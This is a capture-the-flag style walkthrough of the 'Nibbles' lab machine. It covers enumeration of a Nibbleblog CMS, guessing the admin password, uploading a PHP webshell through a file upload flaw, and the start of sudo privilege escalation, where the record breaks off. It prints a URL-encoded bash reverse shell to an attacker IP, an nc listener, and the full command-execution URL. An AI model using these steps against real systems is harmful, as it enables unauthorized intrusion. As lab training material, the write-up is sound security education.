Nibbles is an easy linux machine with an exposed Nibbleblog CMS on an Apache web server. After discovering the admin panel and finding credentials as admin, an authenticated file upload vulnerability in Nibbleblog 4.0.3 was exploited to gain remote code execution and a reverse shell which will attain us the `nibbler` user. Misconfigured sudo permissions on the nibbler home path allowed us to create our own `monitor.sh` to gain root on the machine.


I'll first start with a nmap scan of the machine :
```
nmap -sC -sV -p- 10.129.189.201 
-----------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.71 seconds

```

The output shows ssh and http are open. We can see the http server is using Apache, and it is a linux machine.


**HTTP Website**

We see a simple hello world webpage here.



Usually when you see an empty page like this, it's good to view the page source to see if there's any hidden text left, which in this case did.


What we have now is a potential directory to the actual website. 
```
http://10.129.189.201/nibbleblog/
```
New webpage found.



On this webpage, I see the `Powered by Nibbleblog` text 


Googling this shows an open-source CMS blog that is currently being hosted on github.


Abusing this, we can enumerate through the website if they have not changed the file names that were pre-built on this CMS.


**admin.php**

We see an admin login page here. This could be useful for later.



**update.php**

We see a webpage that's rather interesting. It specifies 2 filepaths which might contain DB credentials


**configs.xml**

We see an email `admin@nibbles.com` , which we can possibly attribute to admin being the username on the login page.
```
http://10.129.189.201/nibbleblog/content/private/config.xml
```



**comments.xml**

Does not seem to contain anything interesting.
```
http://10.129.189.201/nibbleblog/content/private/comments.xml
```


From these config files, we gathered that the username can be admin, so we can start looking for the password


**Logging in as Admin**

When searching for default login credentials for nibbleblog, I kind of got spoilt via Google's AI overview that the password was nibbles.


After further research, it seems that there were no official default credentials for nibbles, and the intended path for us was to guess the password was nibbles based off the config.xml file we saw earlier, where they mentioned the string Nibbles.


Eitherway, let's try these credentials and log into nibbleblog/





**Obtaining webshell**

On the website, if we were to go to settings, we would be able to see the version of the nibbleblog CMS.





By googling `Nibbleblog 4.0.3 vuln`, we see that there's a file upload vulnerability that allows us to perform RCE via PHP.

I referred to this github for the manual RCE route.
```
https://github.com/hadrian3689/nibbleblog_4.0.3
```



Taking a look at this github, it seems that we're just uploading a PHP file into one of the instaled plugins, then running a PHP webshell from there. Let's try to do it.


I'll create a typical PHP webshell


Uploading the file




Intercepting  the file upload with burp suite to see what we  are sending over.

Take note of the `name="image"` , as this will be the actual file name we find in the directory later.



We get a couple warnings when we upload the file, but doesn't seem to have failed.




Navigating through the directory we find our webshell here that was renamed to image.php

Tested via using whoami and I got a webshell.



**Shell as nibbler**

From here I can just get a reverse shell via this bash command that is url encoded
```
bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.2/4445+0>%261'
```

Deploying my listener
```
nc -lvnp 4445
```


Executing the RCE
```
http://10.129.189.201/nibbleblog/content/private/plugins/my_image/image.php?0=bash+-c+%27bash+-i+%3E%26+/dev/tcp/10.10.16.2/4445+0%3E%261%27
```



We have a shell.



**Getting root**

I run  `sudo -l` to check my privileges.




Since we can run monitor.sh as root, it's worth taking a look.

To my surprise, when i tried to cat the file, there were no such file or directory?
